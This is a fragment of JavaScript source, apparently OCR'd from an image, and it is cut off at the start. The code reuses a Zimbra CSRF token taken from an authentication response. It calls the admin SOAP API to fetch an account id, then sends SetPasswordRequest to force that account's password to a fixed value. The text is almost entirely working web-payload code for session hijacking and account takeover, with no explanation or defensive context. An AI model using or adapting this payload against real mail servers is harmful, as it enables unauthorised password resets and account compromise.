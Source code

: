 ```
  var response = JSON.parse(xhr.response);


  var csrf_token = response.Body.AuthResponse.csrfToken._content;


  var xhr2 = new XMLHttpRequest();


  xhr2.open("POST", "/service/admin/soap/GetInfoRequest");
  xhr2.setRequestHeader("Content-Type", "application/soap+xml;charset=UTF-8");
  xhr2.setRequestHeader("X-Zimbra-Csrf-Token", csrf_token);
  xhr2.send('<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope"><soap:Header><context xmlns="urn:zimbra"><userAgent xmlns="" name="ZimbraWebClient - FF111 (Win)"/><session xmlns="" id="360"/><format xmlns="" type="js"/></context></soap:Header><soap:Body><GetInfoRequest xmlns="urn:zimbraAccount"/></soap:Body></soap:Envelope>');


  xhr2.onload = function() {
    var response = JSON.parse(xhr2.response);


    var id= response.Body.GetInfoResponse.id;


    var zids = [];
    zids.push( id);


    console.log(zids.length); // 在这里打印所有的会话。


    for (var i = 0; i < zids.length; i++) {
      var setPasswordRequest = '<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope"><soap:Header><context xmlns="urn:zimbra"><userAgent xmlns="" name="ZimbraWebClient - FF111 (Win)"/><format xmlns="" type="js"/></context></soap:Header><soap:Body><SetPasswordRequest xmlns="urn:zimbraAdmin"><id xmlns="">' + zids[i] + '</id><newPassword xmlns="">7777777</newPassword></SetPasswordRequest></soap:Body></soap:Envelope>';


      var xhr3 = new XMLHttpRequest();


      xhr3.open("POST", "/service/admin/soap/SetPasswordRequest");
      xhr3.setRequestHeader("Content-Type", "application/soap+xml;charset=UTF-8");
      xhr3.setRequestHeader("X-Zimbra-Csrf-Token", csrf_token);
      xhr3.send(setPasswordRequest);


      xhr3.onload = function() {
        console.log("Set password for " + zids[i] + ":", xhr3.response);
      };
    }
  };
};
```  
  